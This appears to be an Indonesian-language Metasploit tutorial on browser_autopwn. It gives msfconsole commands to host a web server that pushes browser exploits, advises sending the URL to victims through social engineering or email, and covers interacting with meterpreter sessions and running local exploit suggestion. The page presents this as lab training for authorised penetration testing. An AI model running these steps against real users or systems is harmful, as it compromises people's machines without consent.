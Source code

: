 # Eksploitasi Otomatis dengan AutoPwn 

## A. Apa itu AutoPwn?

AutoPwn adalah fitur dari Metasploit yang secara otomatis memuat berbagai eksploit dan menyerang target berdasarkan kerentanannya, terutama melalui browser (client-side attack).

Modul terkait:

```
auxiliary/server/browser_autopwn
```

> Fitur ini sudah deprecated dalam versi baru, tetapi konsepnya masih digunakan dalam serangan berbasis exploit suggestion + exploit chaining.

Prasyarat:
- Kali Linux dengan Metasploit terinstal.
- Browser korban (misalnya `Windows 7` + `IE`, `Firefox` versi lama).
- Jaringan lokal/lab untuk pengujian.
- Pengetahuan dasar Metasploit.

### 1. Setup AutoPwn

1. Jalankan Metasploit

   ```
   msfconsole
   ```

2. Gunakan modul AutoPwn:

   ```
   use auxiliary/server/browser_autopwn
   ```

3. Atur parameter penting:

   ```
   set LHOST 192.168.1.10
   set SRVHOST 192.168.1.10
   set SRVPORT 80
   set SSL false
   set verbose true
   ```

   Keterangan:
   - `LHOST`: IP Attacker
   - `SRVHOST`:  IP hosting payload
   - `SRVPORT`: Port hosting payload
   - `SSL`: Non-SSL (HTTP)
   - `VERBOSE`: Menampilkan output lebih detail (debugging)
  
4. Jalankan:

   ```
   run
   ```

   Metasploit akan:
   - Menjalankan web server dengan banyak exploit browser.
   - Membuat payload otomatis.
   - Menunggu korban mengakses URL (via social `engineering`, `email`, `dsb`).
   - Menyuntikkan exploit dan mencoba men-deploy payload.
  
### 2. Teknik Penyebaran

   Kirim URL ke korban: http://192.168.1.100/

   - Jika browser rentan (`IE6`, `Firefox 10`, `dll`), exploit akan dikirim.
   - Otomatis membuka sesi meterpreter.

### 3. Hasil Eksploitasi

   Cek sesi:

   ```
   sessions -l
   ```

   Interaksi:

   ```
   sessions -i 1
   ```
### 4. Alternatif: Auto Exploitation dengan Exploit Suggestion

   Langkah:

   ```
   use post/multi/recon/local_exploit_suggester
   set SESSION 1
   run
   ```
 
   Kemudian gunakan exploit yang disarankan:

   ```
   use exploit/linux/local/xxx
   set SESSION 1
   run
   ```

## Catatan Etis dan Legal
   - AutoPwn hanya boleh digunakan dalam lab atau lingkungan izin.
   - Jangan digunakan terhadap sistem publik atau tanpa persetujuan.
   - Risiko legal dan etika sangat tinggi jika digunakan sembarangan.

